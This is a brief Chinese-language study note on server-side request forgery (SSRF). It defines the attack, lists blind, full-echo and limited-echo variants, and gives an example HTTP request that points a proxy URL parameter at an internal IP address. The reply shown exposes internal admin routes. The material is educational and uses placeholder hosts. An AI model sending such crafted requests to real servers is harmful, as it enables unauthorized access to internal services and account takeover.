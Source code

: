 #ssrf 


>在服务器端请求伪造(SSRF)攻击中，攻击者可以利用服务器上的功能来读取或更新内部资源。SSRF漏洞使攻击者能够发起源自服务器的请求。

- Blind Ssrf ：允许扫描可访问的主机和端口
- 完整回显：允许您查看服务器的整个响应
- 有限回显：显示响应的一部分，如页面的标题或无响应，或者您可以访问资源但不能直接查看它们

### Full Response
<!--ID: 1743506670025-->
<!--ID: 1743507089919-->

```http

GET http://xxx.com/images/proxy?url=https://aaaa.com/1.png http/1.1


Response:
djflksadjflksdjflsdjalfjdslkajflasjdljxclkjcljlksdjlkdajflkdf
dsjfklsadjflkjsdlkfjslda



GET http://xxx.com/images/proxy?url=https://10.0.01 http/1.1


Response:
{
	"message":"Route not available",
	"routes":[
		"/users/{user_id}",
		"/user/{user_id}/make_admin",
		"/user/{user_id}/new_password/{new_password}",
	]
}
```